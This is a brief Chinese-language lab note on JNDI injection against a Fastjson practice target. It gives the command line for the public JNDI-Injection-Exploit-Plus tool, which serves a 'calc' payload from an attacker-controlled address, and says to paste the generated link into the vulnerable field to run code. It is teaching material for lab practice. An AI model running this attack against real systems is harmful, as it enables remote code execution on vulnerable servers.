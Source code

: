 配置工具后生成![image-20250920133252483](./images/JNDI注入/image-20250920133252483.png)

然后复制这个链接到靶场的fastjson处，可以弹出计算器，对运行靶场的jdk版本有要求

工具：

https://github.com/cckuailong/JNDI-Injection-Exploit-Plus?tab=readme-ov-file

![image-20250920134300655](./images/JNDI注入/image-20250920134300655.png)

运行：

> java -jar JNDI-Injection-Exploit-Plus-2.5-SNAPSHOT-all.jar  -C "calc" -A 10.56.93.60

然后根据目标环境选择
